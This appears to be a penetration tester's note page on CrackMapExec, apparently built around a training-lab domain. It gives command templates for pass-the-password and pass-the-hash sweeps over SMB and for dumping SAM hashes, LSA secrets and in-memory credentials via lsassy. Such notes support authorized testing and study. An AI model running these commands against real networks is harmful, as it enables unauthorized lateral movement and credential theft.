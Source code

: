 -- -
### Interact w/ db
crackmapexec hosts a database where it keeps all the credentials and what not that you have gathered on an engagement. 
```bash
# open db
cmedb

# show hosts
hosts

# dump all the credentials you have gathered
creds
```
### Using modules
```bash
# List available modules for the service
crackmapexec <service> -L
crackmapexec smb -L

# use a module
crackmapexec smb <ip> -u <username> -p <password> -M <module>
```
### Pass-The-Password
Sweep network with valid set of #userpass credentials to see what kind of access we can get on various machines/services
```bash
# Pass-The-Password against SMB
crackmapexec smb <cidr range> -d <domain> -u <username> -p <password>
crackmapexec smb 192.168.138.0/24 -d MARVEL.local -u fcastle -p Password1
```

^bd85ee

### Pass-The-Hash
Sweep network with valid set of #userhash credentials to see what kind of access we can get on various machines/services. 
```bash
# Note: requires full NTLM hash
# This tests local-authentication versus AD auth

# see where you can log into
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth

# see where you can log into and dump the SAM if local admin
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --sam

# Enumerate shares
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --shares

# dump lsa secrets
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --lsa

# Dump secrets in memory, if available
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth -M lsassy
```

^116e4a

